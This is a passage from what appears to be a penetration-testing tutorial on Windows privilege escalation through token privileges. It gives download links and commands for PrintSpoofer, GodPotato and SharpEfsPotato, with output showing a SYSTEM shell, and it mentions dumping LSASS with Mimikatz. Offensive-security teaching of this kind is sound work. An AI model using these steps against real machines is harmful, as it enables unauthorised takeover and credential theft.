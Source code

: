 From these the `SeShutdownPrivilege` is a little interesting, as it allows you to reboot the machine. Some exploits only trigger at the startup of a service for example, and a reboot can trigger this at will.&#x20;

Local administrators will have all the permissions that exist, so they can do anything on the computer. Sometimes a middle ground is chosen to give low-privilege users some extra privilege, but this can backfire if they are powerful ones that can be abused.&#x20;

### SeImpersonatePrivilege

This privilege allows you to impersonate other users like `nt authority\system`. This user can do anything, like dumping LSASS memory with Mimikatz. Exploits exist that abuse this to get a shell:

[https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe)

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">PS C:\> .\PrintSpoofer64.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

<strong>PS C:\Windows\system32> whoami
</strong>whoami
<strong>nt authority\system
</strong></code></pre>

It's possible that this exploit above does not work, but some alternatives might work in these scenarios. First, there is [GodPotato](https://github.com/BeichenDream/GodPotato/releases) which you can download pre-compiled from the Releases, and execute:

```powershell
.\GodPotato-NET4.exe -cmd ".\shell.exe"
```

Lastly, there is also [SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato) which needs to be compiled by hand using [Visual Studio](https://visualstudio.microsoft.com/):

```powershell
.\SharpEfsPotato.exe -p C:\Windows\Tasks\shell.exe
```

### Other Se...Privilege

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens" %}
Comprehensive list of abusable privileges to perform local privilege escalation
{% endembed %}

### 'Disabled' privileges

In rare cases, privileges might be _Disabled_ which doesn't let you abuse them. Luckily for the attacker, this is only a setting that you can easily Enable for any privilege. The [EnableAllTokenPrivs.ps1](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/) script can be used to enable all these privileges:
